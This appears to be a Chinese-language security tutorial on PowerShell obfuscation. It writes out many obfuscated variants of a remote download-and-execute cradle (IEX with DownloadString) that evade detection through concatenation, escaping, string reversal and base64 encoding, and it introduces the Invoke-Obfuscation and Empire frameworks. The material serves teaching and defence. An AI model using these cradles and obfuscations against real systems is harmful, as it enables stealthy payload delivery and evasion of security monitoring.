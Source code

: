 # powershell(10)-混淆

> Powershell的混淆目前已经使用的越来越多，国内外也有了较多的研究，在今年的BH大会上也有对应的议题，关注点是反混淆，那么里面的一些姿势很值得我们学习，我们提供一些混淆实例，来让大家对于PS的混淆做到一个初步了解，也为防御混淆提供一些思路。

## 实例

在混淆之前，先看看powershell编码执行的方式。

`-EC,-EncodedCommand,-EncodedComman,-EncodedComma,-EncodedComm,......,Enc,-En,E`
那么这些参数都可以让代码编码执行，可见我们的混淆的选择是非常多的，而防御起来就越难。


我们在攻击时经常会远程下载代码脚本执行，这里基于这样的一条标准的下载文件命令来进行变形混淆。
`Invoke-Expression (New-Object System.Net.WebClient).DownloadString("http://127.0.0.1/powershell")`

简单处理我们刚才的命令：
`Invoke-Expression (New-Object System.Net.WebClient).DownloadString("http://127.0.0.1/powershell")`

1. 去掉System关键字
`Invoke-Expression (New-Object Net.WebClient).DownloadString("http://127.0.0.1/powershell")`

2. 使用字符串连接+号连接
`Invoke-Expression (New-Object Net.WebClient).DownloadString("ht"+"tp://127.0.0.1/powershell")`

3. 使用Invoke方法
`Invoke-Expression (New-Object Net.WebClient).("DownloadString").Invoke('h'+'ttp://127.0.0.1/powershell')
$ds="Down"+"loadString";Invoke-Expression (New-Object Net.WebClient).$ds.Invoke('h'+'ttp://127.0.0.1/powershell')`

4. 变量替代
`IEX $test=New-Object Net.WebClient;$test.DownloadString('h'+'ttp://127.0.0.1/powershell')`

5. 关键字使用单双引号引起来
`Invoke-Expression (New-Object Net.WebClient)."DownloadString"('h'+'ttp://127.0.0.1/powershell')`

6. 转义符号
```Invoke-Expression (New-Object Net.WebClient)."D`o`wn`l`oad`Str`in`g"('h'+'ttp://7ell.me/power')
```
7. 字符串反转

	```powershell
$re= ")'1/1.0.0.721//:ptth'(gnirtSdaolnwoD.)tneilCbeW.teN tcejbO-weN(";
IEX ($re[-1..-($re.Length)] -Join '') | IEX
```
8. 编码执行

	```powershell
$command = "Write-Host ‘Hello World!’"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command) 
$encodedCommand = [Convert]::ToBase64String($bytes) 
powershell.exe -EncodedCommand $encodedCommand
```
9. IEX
	
	我们使用的代码很多都使用Invoke-Expression/IEX命令，
Invoke-Expression/IEX命令是很常用的一个命令， 运行一个以字符串形式提供的PowerShell表达式。
这里也先看看代替IEX的各种执行方式

	1. `&(GAL I*X)` : 通过别名的方式来进行编码
	2. `Command I*e-E*` : 通过command的方式来进行编码
	3. `$ExecutionContext.InvokeCommand.GetCmdlets('I*e-E*')`使用环境变量等等
	4. ...

## 工具
> 那么讲了这么多，其实只是给大家讲了一下有这种编码方式，对于蓝队来说需要更深入的掌握，当让red team需要掌握的就更多了，下面给大家介绍几款混淆和编码框架供大家学习。

### Invoke-Obfuscation
下载地址：[https://github.com/danielbohannon/Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)

这个工具呢已经有dalao在freebuf上写过相关是使用方法---[http://www.freebuf.com/sectool/136328.html](http://www.freebuf.com/sectool/136328.html)

简单介绍一下这个框架就是我们的powershell混淆框架，首先是启动

```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```
启动之后是这样的：

![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/obfuscation/1.png)

之后输入你的代码，然后可以选择你需要的编码

![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/obfuscation/2.png)

我们来测试得到的结果：

![](https://raw.githubusercontent.com/myoss114/oss/master/uPic/obfuscation/3.png)

还有更多的使用技巧可以查看工具的官方文档进行学习。
### Empire
Empire是一个类似于Metasploit的渗透工具，可以从他的宣传语: *Building an Empire with PowerShell* 看出Empire对于powershell的利用下了很大的功夫，集成了大量的攻击Payload可供选择，而且可以自己来选择编码，并且对不同的平台都能够支持，具体可以参看[官方文档](https://www.powershellempire.com/)，[Freebuf](http://www.freebuf.com/articles/web/76892.html)也有前人总结过一些用法。用法与MSF类似，这里就不过多介绍了。